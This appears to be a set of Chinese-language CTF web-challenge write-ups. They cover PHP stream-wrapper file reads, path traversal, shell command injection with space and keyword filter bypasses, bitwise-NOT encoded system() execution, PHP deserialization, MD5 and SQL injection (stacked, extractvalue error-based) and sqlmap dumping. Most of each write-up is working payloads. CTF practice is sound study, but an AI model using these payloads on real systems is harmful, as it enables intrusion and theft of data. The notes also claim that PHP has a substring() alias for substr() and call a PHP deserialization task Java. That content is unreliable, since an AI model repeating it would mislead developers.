








#     [LitCTF 2023]导弹迷踪


在game.js中找到flag，我自己找找了半天，就是找不到，看完题解，再找一遍，还是没有看到，真是老眼昏花。直接复制给gpt，让他帮我找到


# [SWPUCTF 2021 新生赛]PseudoProtocols



尝试用php伪协议去访问hint.php


得到PD9waHANCi8vZ28gdG8gL3Rlc3QyMjIyMjIyMjIyMjIyLnBocA0KPz4=，应该是base64编码，直接去[Base64 编码/解码 - 锤子在线工具](https://www.toolhelper.cn/EncodeDecode/Base64)解码


让我们跳转到/test2222222222222.php


再次解码，得到

```
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
	echo "success\n";
	echo $flag;
}
?>
```

为a参数利用file_get_contents()函数已只读的方式打开，如果内容等于`I want flag`的话，输出flag。

## 方法一

## php://input

 此方法需要条件，即开启allow_url_include=On。

 实际上这相当于一个远程包含的利用。

php://      访问各个输入/输出流（I/O streams）

php://input  是个可以访问请求的原始数据的只读流。可以接收post请求作为输入流的输入，将请求作为PHP代码的输入传递给目标变量，以达到以post 的形式进行输入的目的，我们直接在流里面写入我们的恶意代码，此时包含既可执行代码。


按理说，这个方法没有问题，看别人的题解，也可以解决，但是不知道为什么，我没有回显

## 方法二

## **data://协议**

- **条件**：
  - `allow_url_fopen`:on
  - `allow_url_include` :on
- **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

```
data://text/plain,
data://text/plain;base64,xxxx  (如果此处对某些字符进行了过滤，可以通过base64编码后再输入)
```

构造

```
a=data://text/plain,I want flag
a=data://text/plain;base64,SSB3YW50IGZsYWc=
```



# [SWPUCTF 2021 新生赛]no_wakeup


比较明显java反序列化，让admin=admin,passwd=wllm

`sha1` 是一种 **哈希算法**（Secure Hash Algorithm 1），它会把任意长度的数据转换成一个固定长度的 **40位十六进制字符串**（160位二进制）。

## wakeup（）

正常来说在反序列化过程中，会先调用wakeup()方法再进行unserilize()，但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。

 **`__wakeup()`函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行**

在 PHP 中，当执行 `unserialize()` 还原对象时，PHP 会进行以下流程：

1. 检查传入的序列化字符串是否合法。
2. 根据字符串创建对象实例，并填充属性值。
3. **如果属性数量匹配，并且类中定义了 `__wakeup()`，则会执行 `__wakeup()` 方法**。

然而，如果**序列化字符串声明的属性数量与类实际的属性数量不一致**（尤其是**声明的数量大于真实数量**），PHP 会在反序列化时抛出“属性数量不匹配”的错误，直接 **跳过 `__wakeup()` 的执行**，只返回对象实例。

**payload**

```
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{

    public $admin="admin";
    public $passwd="wllm";

}

$w=new HaHaHa();
$w=serialize($w);
echo $w;

?>
```

```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```


# [LitCTF 2023]Follow me and hack me


没什么好说的，get和post传参即可


# [NCTF 2018]签到题


flag在响应头里，开始不知道怎么有响应，看了题解，直接访问index.php或者直接访问根目录

# [NISACTF 2022]easyssrf


​	

```
file:///fl4g
```


## 方法一

```php
?file=php://filter/read=convert.base64-encode/resource=/flag
```


base64解码即可得到flag

## 方法二


因为是读取到一个文件对吧，我们是不是可以想到文件包含，想到文件包含，而且它也没有对../进行过滤，我们可以直接通过文件包含漏洞得到flag，十分的简单。

```
file=../../../../../../..//flag
```

## `file_get_contents()` 

是 PHP 中非常常用的文件/资源读取函数，它可以**将整个文件、URL 或数据流读入为一个字符串**。它功能简单却强大，经常被用于文件操作、API请求、甚至是 SSRF 漏洞利用。下面我给你做一个详细的解析。

### **1. 函数定义**

```
string file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] )
```

### **参数解释：**

1. **`$filename`**
   - 必填。要读取的文件路径或 URL。
   - 支持本地文件路径（`/var/www/html/file.txt`）、相对路径（`./file.txt`）、URL（`http://example.com`）、伪协议（`php://filter`、`file://` 等）。
2. **`$use_include_path`** *(可选)*
   - 默认为 `false`。是否在 include_path 中查找文件（一般保持默认即可）。
3. **`$context`** *(可选)*
   - 可以传入一个 **流上下文（stream context）** 来修改 HTTP 请求头、超时等参数（配合 URL 读取时常用）。
4. **`$offset`** *(可选)*
   - 从文件的哪个位置开始读取。默认为 `-1`（即从头开始）。
5. **`$maxlen`** *(可选)*
   - 读取的最大长度。可限制返回的数据量。

### **2. 返回值**

- 成功：返回文件或URL的内容（字符串）。
- 失败：返回 `false`（比如文件不存在、权限不足等）。

### **3. 基本用法**

### **(1) 读取本地文件**

```
$content = file_get_contents("test.txt");
echo $content;
```

### **(2) 读取 URL（需要 allow_url_fopen=On）**

```
$content = file_get_contents("http://example.com/");
echo $content;
```

### **3. 伪协议支持（安全敏感点）**

`file_get_contents()` 支持 PHP 的各种伪协议，这也是漏洞常见来源：

### **`file://` 协议：读取本地文件**

```
echo file_get_contents("file:///etc/passwd");
```

### **`php://filter` 协议：编码文件内容**

```
echo file_get_contents("php://filter/convert.base64-encode/resource=flag.php");
```

> 用于查看源码，即便有 `include` 执行限制。

### **`php://input` 协议：读取原始 POST 数据**

```
$data = file_get_contents("php://input");  // 读取HTTP请求体
```

### **`data://` 协议：内联数据流**

```
echo file_get_contents("data://text/plain;base64,SGVsbG8gV29ybGQ=");
```

## file协议

`file://` 协议是 PHP 和许多语言支持的 **本地文件访问协议**，用于通过统一的 URI 语法来访问服务器文件系统中的文件。

`file://` 协议允许使用类似 URL 的方式来访问本地文件系统中的文件。例如：

```
file:///path/to/file
```

等价于直接访问 `/path/to/file` 文件。

- **示例**：

  ```
  echo file_get_contents("file:///etc/passwd");  
  // 等价于 file_get_contents("/etc/passwd")
  ```

### **2. 用法**

在 PHP 中，当 `allow_url_fopen` 开启时，`file://` 可用于文件读取、包含、或配合 SSRF 攻击。

### **(1) 绝对路径**

```
echo file_get_contents("file:///var/www/html/config.php");
```

### **(2) 相对路径**

```
echo file_get_contents("file://./test.txt");  // 当前目录
echo file_get_contents("file://../test.txt"); // 上一级目录
```

### **(3) 搭配目录遍历**

```
echo file_get_contents("file:///../../../../etc/passwd");
```

## curl

`curl` 是一个非常强大的**命令行工具和编程库**，用于通过各种协议（如 HTTP、HTTPS、FTP、SMTP 等）向服务器发送请求或从服务器获取数据。

### curl 命令用法

1、输出网页内容。

```
curl http://example.com
```

# [LitCTF 2023]Ping


ls被过滤了，但可以禁用前端验证，按f12，f1，禁用JavaScript

接着使用

```
127.0.0.1;cat /flag
```


## 命令注入

### 1. **分号 (;) 链接命令**

- 最常用的方式，用分号分隔多个命令。

  ```
  127.0.0.1; ls
  ```

- 作用：先执行合法命令，紧跟执行攻击者命令。

### 2. **逻辑与 &&**

- 只有前一个命令成功执行后，才执行后一个命令。

  ```
  127.0.0.1 && cat /etc/passwd
  ```

- 常用来保证后续命令执行时机。

### 3. **逻辑或 ||**

- 只有前一个命令失败时，才执行后一个命令。

  ```
  127.0.0.1 || whoami
  ```

### 4. **反引号 ``command``**

- 反引号包裹的命令会被先执行，执行结果作为字符串返回。

  ```
  127.0.0.1 `ls`
  ```

- 常用在一些字符串拼接执行的场景。

### 5. **美元括号 $()**

- 与反引号类似，但语法更现代和清晰。

  ```
  127.0.0.1 $(ls)
  ```

### 6. **管道符 |**

- 把前一个命令的输出传给下一个命令。

  ```
  127.0.0.1 | grep root
  ```

- 有时能绕过简单的过滤。

### 7. **换行符 \n 或 \r\n**

- 在某些环境下可用换行符结束当前命令，执行新命令。

  ```
  127.0.0.1
  ls
  ```

### 8. **URL 编码/Unicode 编码**

- 利用编码绕过过滤器。

- 例如 `%3B` 是分号 `;` 的 URL 编码。

  ```
  127.0.0.1%3Bls
  ```

### 9. **命令替换 + 拼接**

- 利用 shell 命令替换和字符串拼接组合攻击。

  ```
  127.0.0.1;echo $(whoami)
  ```

### 10. **环境变量利用**

- 利用系统环境变量执行命令。

  ```
  127.0.0.1;echo $PATH
  ```

# [NSSCTF 2022 Spring Recruit]ezgame


直接在preload.js里找到flag

# [BJDCTF 2020]easy_md5


自己开始尝试半天，没有什么反应，看别人的题解才找到响应头里有东西（**看来以后不能只看源码，也得看响应头**）

```
select * from 'admin' where password=md5($pass,true)
```

这里面password就是我们用户框中输入的东西。如果通过md5之后返回字符串是'or 1的话，形成一个永真条件， 

```
select * from 'admin' where password='  'or  '6...' 
```

## ffifdyop绕过

绕过原理是： ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，这个字符串前几位刚好是 ' or '6 而 Mysql 刚好又会把 hex 转成 ascii 解释，因此拼接之后的形式是 select * from 'admin' where password='' or '6xxxxx'，等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数



```
?a=QNKCDZO&b=s878926199a
?a[]=1&b[]=2
#两个都可以绕过，原理前面有说过
```


这里md5比较是强比较===，因此不能找0e开头的字符串

如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等

```
param1[]=1&param2[]=2
```


# [suctf 2019]EasySQL

尝试输入1会返回


抓包放到intruder中


设置字典


发现过滤了很多关键字


尝试使用堆叠注入

- 所谓堆叠注入就是将多条sql语句放在一起执行并且以**;**分开

  **进行堆叠注入，先尝试查看数据库名称。**

```
1;show databases;
```


**成功查询到数据库的名称，这表明堆叠注入是可行的，我们接着顺势查询表名。**

```
1；show tables;
```


**我们首先想到利用from来查询Flag，可是通过抓包分析可知，from关键字被过滤掉了，所以只能另寻他法。**

此时我们想到，开始时我们输入1有会显，我们不妨再尝试输入0试试。

**发现输入0和字母都没有回显**

**我们由此可以猜测后端代码含有 \**||或运算符\**。**（太聪明了，不看题解我怎么想得到）

```
补充：|| 或or 运算符讲解：
select command1 || command2 

情况一：若command1为非0数字，则结果为1。

情况二：若command1为0或字母，command2为非0数字，则结果为1。

情况三：command1和command2都不为非0数字，则结果为0。
```

## 方法一：使用 sql_mode 中的 PIPES_AS_CONCAT 函数

PIPES_AS_CONCAT：将 || 或运算符 转换为 连接字符，即将||前后拼接到一起。

**select 1 || flag from Flag**的意思将变成 先查询1 再查询 flag，而不是查询1flag,只是查询的结果会拼接到一起，不要弄混淆了。

所以查询语句如下：

```
1;set sql_mode=pipes_as_concat;select 1
```


## 方法二：利用非预期漏洞获取flag

1、非预期漏洞的概念：

若输入1，1。那么sql语句就变成了 select 1, 1 || flag from Flag。其中由 [1] 和 [1 || flag] 两部分组成，而非 [1,1] || [flag]。非预期漏洞是利用数据库对符号判断的不准确形成的漏洞。

2、如何拿到flag：
输入 *,1后，sql语句就变成了 select *,1 || flag from Flag。

其中分为两部分： (1) select * from Flag    (2) select 1 || flag from Flag。

select * from Flag 通过查看表Flag中的所有数据可以 get到flag。


# [GXYCTF 2019]Ping Ping Ping


空格被过滤


在这里测试半天，才发现是要构造ip


过滤空格的解决方法

$IFS是bash中的内部域分隔符，可以代替空格，后面的$9数字是可以随意的

$IFS$1　　　　　　//$1改成$加其他数字都行，都能当作空格来用

## Rec 远程命令执行空格绕过的方法：

< -- 命令的重定性 如 cat<flag.php

<> --重定性 如 cat<>flag.php

%09 --需要php环境，如cat%09flag.php

${IFS}--单纯cat$IFS2,IFS2就会被bash当作解释器当作变量名输不出来结果，加一个{}就固定了变量名，如cat${IFS2}flag.php

$IFS$9 -- 后面加个$与{}类似，起截断作用，$9是当前系统shell进程第九个参数持有者，始终为空字符串，如cat$IFS2$9flag.php

```
127.0.0.1|cat$IFS$1flag.php
```


flag也被过滤，看一下index.php

```
127.0.0.1|cat$IFS$1index.php
```


flag我们可以将其用两个变量来进行拆分，使用代码的思维，将两个变量组合成我们需要的字符，避免直接输入。输入"127.0.0.1|a=f;b=lag;cat$IFS$9$a$b.php"

在linux中管道符" | ",上一条命令的输出，作为下一条命令的参数（显示后面的执行结果），可能是因为，输出的需要，先把ping 输出出来，后面的才能输出,所以这里就不能用管道符，我们换成" ; "继续试试。输入" **127.0.0.1;b=lag;a=f;cat$IFS$9$a$b.php** "


# [SWPUCTF 2021 新生赛]hardrce


总之，题目没有过滤 `|` 以及`~`，我们可以考虑使用 或 操作或者 取反 操作，这里使用取反

首先对一串代码进行取反，然后再进行url编码，在发送请求的时候将其再次取反即可。因为取反之后基本都是不可见字符，所以基本上不会被正则匹配到

构造`system('ls /')`，因为没有过滤括号，我们只对括号内外分别取反再编码再取反即可：

```
<?php
echo urlencode(~ 'system'); // 输出: %8C%86%8C%8B%9A%92
echo "\n";
echo urlencode(~ 'ls /');   // 输出: %93%8C%DF%D0
?>
```

```
%8C%86%8C%8B%9A%92
%93%8C%DF%D0
```

### 1️⃣ **按位取反 (bitwise NOT) 的处理**

- 对 `'system'` 和 `'ls /'` 进行按位取反，实际上是对它们的每个字节按位取反。

  - `'system'` 字符的 ASCII 码为：

    ```
    s = 0x73
    y = 0x79
    s = 0x73
    t = 0x74
    e = 0x65
    m = 0x6D
    ```

    对每个字符进行按位取反后得到：

    ```
    s = ~0x73 = 0x8C
    y = ~0x79 = 0x86
    s = ~0x73 = 0x8C
    t = ~0x74 = 0x8B
    e = ~0x65 = 0x9A
    m = ~0x6D = 0x92
    ```

    所以 `'system'` 被按位取反后变成了：

    ```
    0x8C 0x86 0x8C 0x8B 0x9A 0x92
    ```

  - `'ls /'` 字符的 ASCII 码为：

    ```
    l = 0x6C
    s = 0x73
    (space) = 0x20
    / = 0x2F
    ```

    对每个字符进行按位取反后得到：

    ```
    l = ~0x6C = 0x93
    s = ~0x73 = 0x8C
    (space) = ~0x20 = 0xDF
    / = ~0x2F = 0xD0
    ```

    所以 `'ls /'` 被按位取反后变成了：

    ```
    0x93 0x8C 0xDF 0xD0
    ```

------

### 2️⃣ **URL 编码 (`urlencode`)**

`urlencode` 会把字符串中的非字母数字字符转化为 `%xx` 格式。因此，我们对这两个取反后的字节流进行 URL 编码。

- `'system'` 取反后的结果是：

  ```
  0x8C 0x86 0x8C 0x8B 0x9A 0x92
  ```

  URL 编码后变为：

  ```
  %8C%86%8C%8B%9A%92
  ```

- `'ls /'` 取反后的结果是：

  ```
  0x93 0x8C 0xDF 0xD0
  ```

  URL 编码后变为：

  ```
  %93%8C%DF%D0
  ```

```
?wllm=~(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```



```
<?php
echo urlencode(~'system');
echo "\n";
echo urlencode(~'cat /flllllaaaaaaggggggg');
?>
```

再构造cat /flllllaaaaaaggggggg：

```
<?php
echo urlencode(~'system');
echo "\n";
echo urlencode(~'cat /flllllaaaaaaggggggg');
?>
```

```
%8C%86%8C%8B%9A%92
%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98
```

```
?wllm=~(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```


用substr函数检查该参数值的前三个字符是否为 "php"

如果是的话，代码会输出 "Nice!!!"
很明显这里用php伪协议即可读取flag

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```


解码得到

```
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");

echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_'flag'"."<br/>";
echo "换个思路，试试PHP伪协议呢";
```

```
http://node5.anna.nssctf.cn:26877/?file=php://filter/read=convert.base64-encode/resource=flag
```


# [ZJCTF 2019]NiZhuanSiWei


首先绕过

```
isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")
```

要求传入text文件，内容为welcome to the zjctf

```
?text=data://text/plain,welcome to the zjctf
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

## `data:` 

data:协议是一种 **URL 方案**，用于在 URL 中直接嵌入小型数据，而不需要单独的文件或网络请求。它可以内联（inline）数据，使得浏览器或应用程序可以将这些数据当作资源（如文件）直接使用。

### 1. **语法格式**

```
data:[<MIME 类型>][;base64],<数据内容>
```

组成部分：

1. `data:`：协议头，表示这是一个内联数据资源。
2. `<MIME 类型>`（可选）：描述数据的媒体类型，默认是 `text/plain;charset=US-ASCII`。
3. `;base64`（可选）：指示数据内容使用 Base64 编码。
4. `<数据内容>`：实际数据，可以是直接的文本，也可以是 Base64 编码后的数据。

### 2. **示例解析**

```
?text=data://text/plain,welcome to the zjctf
```

- 协议：`data://` (某些实现中也写作 `data:`)
- MIME 类型：`text/plain`
- 编码：无 base64
- 内容：`welcome to the zjctf`
   浏览器或程序会将这段内容当作纯文本文件，内容直接显示。

    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }

过滤掉flag，提示useless.php

```
file=php://filter/read=convert.base64-encode/resource=useless.php
?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```


解码得到

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

```
<?php

class Flag{  //flag.php
    public $file="flag.php";
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
$a=new Flag();
echo serialize($a);
?>
```

得到

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

最后的payload

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```


# [SWPUCTF 2021 新生赛]error


输入'会报错，很明显是sql注入

## 方法一、SQLMAP

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" --batch
```


### **结果分析**

- **目标 URL**：`http://node7.anna.nssctf.cn:20140/index.php?id=1`
- **数据库类型**：MySQL (MariaDB fork)，版本 ≥ 5.0
- **后端环境**：Nginx 1.14.2 + PHP 5.6.40
- **注入类型**：
  - **Boolean-based blind**（布尔盲注）：通过 `AND 2962=2962` 等逻辑判断页面响应。
  - **Error-based**（报错注入）：利用 `FLOOR(RAND())` 报错回显数据。
  - **Time-based blind**（基于时间的盲注）：利用 `SLEEP(5)` 判断。

SQLMap 识别到了三种有效的注入方式，因此目标可被进一步利用。

**爆库**

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" --dbs
```


爆表

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" -D test_db --tables
```


爆字段

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" -D test_db -T test_tb --columns
```


提取内容

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" -D test_db -T test_tb -C flag --dump
```



## 方法二、报错注入


可以判断是单引号闭合

没有回显位，但有报错提示，因此尝试报错注入





判断出列数等于3

**爆库**

```
1' union select 1,extractvalue(1,concat('~',(select database()))),3#
```


**爆表**

```
1' union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3#
```


**爆列**

```
1' union select 1,extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='test_tb'))),3#
```


**获取数据**

第一段

```
1' and 1=extractvalue(1,concat('~',(select group_concat(id,'~',flag) from test_tb)))#
```



第二段

```
1' and 1=extractvalue(1,concat('~',(select substring(group_concat(id,'~',flag),31,30) from test_tb)))#
```


## **`extractvalue()` 函数**

`extractvalue()` 报错注入是 **MySQL 特有的一种报错注入手法**，其核心原理是利用 `extractvalue()` 函数对 **非法 XPath 表达式** 的解析报错，将我们想要的数据拼接进报错信息，从而在页面中回显数据库数据。

- 语法：

  ```
  extractvalue(XML_document, XPath_string)
  ```

- 作用：
   从 XML 文档中提取满足 XPath 表达式的值。

**当 XPath 表达式不合法或找不到节点时，会报错**，错误信息会包含我们传入的内容。

###  **报错注入的利用**

通过在 `extractvalue()` 的第二个参数中构造恶意内容，引发报错并让报错信息携带查询结果。

例如：

```
SELECT extractvalue(1, concat(0x7e, database(), 0x7e));
```

**执行结果：**

```
ERROR 1105 (HY000): XPATH syntax error: '~test_db~'
```

此时 `test_db` 就是当前数据库名，通过报错信息泄露。

在 **PHP** 中，字符串截取主要使用函数 **`substr()`**，但也存在与 SQL 类似命名的 **`substring()`**，它们作用相同。

------

## **`substr()` 和 `substring()`**

### 语法：

```
substr(string $string, int $start, int $length = ?): string
```

或

```
substring(string $string, int $start, int $length = ?): string
```

> 其中 `substring()` 是 `substr()` 的别名。

### 参数说明：

- **`$string`**：要操作的字符串。

- **`$start`**：

  - ≥0：从字符串第 `$start` 位置开始（从 0 开始计数）。
  - <0：从字符串末尾反向开始。

- **`$length`**（可选）：

  - > 0：返回指定长度的子串。

  - 省略或超出范围：返回从 `$start` 到结尾的字符串。

  - <0：返回从 `$start` 到距离末尾 `$length` 的字符串。

------

### **示例代码**

```
<?php
$str = "welcome_to_ctf";

// 从第 0 位开始，取 7 个字符
echo substr($str, 0, 7);       // welcome

// 从第 8 位开始到末尾
echo substr($str, 8);          // to_ctf

// 从末尾开始取 3 个字符
echo substr($str, -3);         // ctf

// 从第 0 位开始，取到末尾前 4 个字符
echo substr($str, 0, -4);      // welcome_to
?>
```

------

### **`substring()` 与 SQL 的区别**

- 在 **PHP** 中，`substring()` 是 `substr()` 的别名；

- 在 **SQL（如 MySQL）** 中，`substring(str, pos, len)` 是内置函数，用于在查询时截取字段内容；

  ```
  SELECT SUBSTRING('welcome_to_ctf', 1, 7);  -- 结果: welcome
  ```

所以 PHP 中的 `substring()` 实际上是 `substr()`，用法几乎一致。